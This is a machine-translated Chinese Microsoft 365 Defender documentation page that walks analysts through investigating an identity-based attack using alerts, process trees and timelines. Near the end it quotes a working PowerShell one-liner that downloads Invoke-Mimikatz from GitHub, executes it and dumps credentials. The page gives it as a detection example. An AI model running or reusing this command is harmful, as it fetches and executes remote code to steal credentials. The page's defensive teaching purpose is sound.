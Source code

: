 ```yaml
---
title: 基于身份的攻击示例
description: 逐步完成基于身份的攻击的示例分析。
keywords: 事件， 警报， 调查， 关联， 攻击， 计算机， 设备， 用户， 标识， 标识， 邮箱， 电子邮件， 365， microsoft， m365， 事件响应， 网络攻击
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: dansimp
author: dansimp
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: 20b9fca87e003c0c776c9f614afaa1b6054c24a5
ms.sourcegitcommit: 3b8e009ea1ce928505b8fc3b8926021fb91155f3
ms.translationtype: MT
ms.contentlocale: zh-CN
ms.lasthandoff: 03/28/2022
ms.locfileid: "64500268"
---
```

# <a name="example-of-an-identity-based-attack"></a>基于身份的攻击示例

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**适用于：**
- Microsoft 365 Defender

Microsoft Defender for Identity 可帮助检测恶意尝试泄露组织标识。 由于 Defender for Identity 与 Microsoft 365 Defender集成，因此安全分析师可以了解来自 Defender for Identity 的威胁，例如可疑的 Netlogon 特权提升尝试。

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>分析 Microsoft Defender 中针对标识的攻击

Microsoft 365 Defender分析员可以在事件页面的"警报"选项卡上按检测源筛选警报。 在下面的示例中，将检测源筛选为 **Defender for Identity**。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="在 Microsoft Defender 中筛选检测源进行标识" lightbox="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png":::

选择 **可疑的哈希** 攻击警报将转到 Microsoft Defender for Cloud Apps 中显示更多详细信息的页面。 通过选择"了解有关此警报类型"以阅读攻击和修正建议的说明，你始终可以了解有关警报或[](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002)攻击的更多信息。
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="可疑的哈希攻击警报" lightbox="../../media/first-incident-path-identity/first-incident-identity-alert-example.png"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>调查 Microsoft Defender for Endpoint 中的相同攻击

或者，分析员可以使用 Defender for Endpoint 了解有关终结点上活动更多信息。 从事件队列中选择事件，然后选择" **警报"** 选项卡。在这里，他们还可以识别检测源。 标记为终结点的检测源EDR终结点检测和响应，即终结点的 Defender。 分析员从此处选择由用户检测到的EDR。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Microsoft Defender 终结点门户中的终结点检测和响应" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png"::: 

警报页面显示各种相关信息，如影响的设备名称、用户名、自动调查的状态以及警报详细信息。 警报情景描述进程树的可视化表示形式。 进程树是与警报相关的父进程和子进程的分层表示形式。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Microsoft Defender for Endpoint 中的警报进程树" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png"::: 

可以展开每个进程以查看更多详细信息。 分析师可以看到的详细信息是作为恶意脚本的一部分输入的实际命令、出站连接 IP 地址和其他有用信息。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Microsoft Defender 终结点门户中的过程详细信息" lightbox="../../media/first-incident-path-identity/first-incident-identity-process-details.png":::
 
通过选择 **"在时间线中** 查看"，分析员可以进一步向下钻取以确定泄露的确切时间。 

Microsoft Defender for Endpoint 可以检测许多恶意文件和脚本。 但是，由于出站连接、PowerShell 和命令行活动的许多合法用途，某些活动在创建恶意文件或活动之前被视为恶意活动。 因此，使用时间线可帮助分析员将警报置于与周围活动的上下文中，以确定攻击的原始源或时间，否则，常见文件系统和用户活动会掩盖这些攻击。 

若要使用时间线，分析员将在警报检测 (以红色) 开始，然后向后滚动以确定导致恶意活动的原始活动何时实际启动。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="分析员的警报检测开始时间" lightbox="../../media/first-incident-path-identity/first-incident-identity-start-time.png"::: 

必须了解并区分常见活动，如 Windows 更新连接、Windows 受信任的软件激活流量、与 Microsoft 站点的其他常见连接、第三方 Internet 活动、Microsoft Endpoint Configuration Manager 活动以及其他恶意活动与可疑活动。 区分方式之一是使用时间线筛选器。 有许多筛选器可在筛选掉分析员不想查看的一切内容时突出显示特定活动。 

在下图中，分析员经过筛选，以便仅查看网络和处理事件。 此筛选条件使分析人员能够查看与事件（记事本 IP 地址建立连接）周围的网络连接和进程，我们在进程树中也可以看到这一点。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="如何使用记事本来建立恶意出站连接" lightbox="../../media/first-incident-path-identity/first-incident-identity-notepad.png"::: 

在此特定事件，记事本恶意出站连接。 但是，攻击者通常iexplorer.exe来建立连接来下载恶意负载，因为iexplorer.exe通常被视为常规 Web 浏览器活动。

时间线中要查找的另一项是 PowerShell 用于出站连接。 分析员会通过命令（如 后跟托管恶意文件的网站的出站连接）查找成功的 PowerShell `IEX (New-Object Net.Webclient)` 连接。 

在下面的示例中，PowerShell 用于从网站下载和执行 Mimikatz：

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
分析员可以通过在搜索栏中键入关键字来快速搜索关键字，以仅显示使用 PowerShell 创建的事件。 

## <a name="next-step"></a>后续步骤

请参阅 [网络钓鱼调查](first-incident-path-phishing.md) 路径。

## <a name="see-also"></a>另请参阅

- [事件概述](incidents-overview.md)
- [管理事件](manage-incidents.md)
- [调查事件](investigate-incidents.md)
